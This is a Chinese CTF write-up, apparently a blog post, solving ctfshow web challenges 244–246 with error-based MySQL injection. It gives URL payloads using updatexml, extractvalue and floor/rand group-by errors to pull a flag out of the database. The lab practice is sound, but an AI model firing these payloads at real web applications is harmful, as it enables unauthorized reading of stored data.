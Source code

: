 
爆金币

```sql
?id=1' and updatexml(1,concat(0x7e,(select flag from ctfshow_flag),0x7e),1)%23
```

![2442](https://the0n3.top/medias/show-sql/2442.png)

爆了一半，把爆出来看一下长度`~ctfshow{ce2b69c3-1ca9-4609-ad6c`，32位，用`substr`函数，把前面的截掉，看看后面的一段，感觉对不是就往前少截点

```sql
?id=1' and updatexml(1,concat(0x7e,substr((select flag from ctfshow_flag),30,20),0x7e),1)%23
```

![2443](https://the0n3.top/medias/show-sql/2443.png)

## web 245

过滤了`updatexml`函数，还可以用类似功能函数`extractvalue`

![245](https://the0n3.top/medias/show-sql/245.png)

用法

```sql
select user,password from users where user_id=1 and (extractvalue(1,concat(0x7e,(select database()),0x7e)));
```

这里的题目需要结合联合注入，拿去试试

![2451](https://the0n3.top/medias/show-sql/2451.png)

确实挺不错的，你们觉得怎么样。按照上题思路接着打

::: tip
突发奇想，既然select能用，为什么不去直接用，我去试试。失败了，正常的sql注入没有回显，所以这里需要报错回显，实现注入
:::

## web 246

过滤了`updatexml``extractvalue`函数，还有基于`floor`的`group by`报错注入

::: tip 原理
原理：利用select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;导致数据库报错，通过concat函数连接注入语句与floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。
:::

本地测试

![246](https://the0n3.top/medias/show-sql/246.png)

报错原因分析

floor(random(0)*2)结果可能为 1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值
实际测试中发现，出现报错，至少要求数据记录为 3 行，记录数超过 3 行一定会报错，2 行时是不报错的
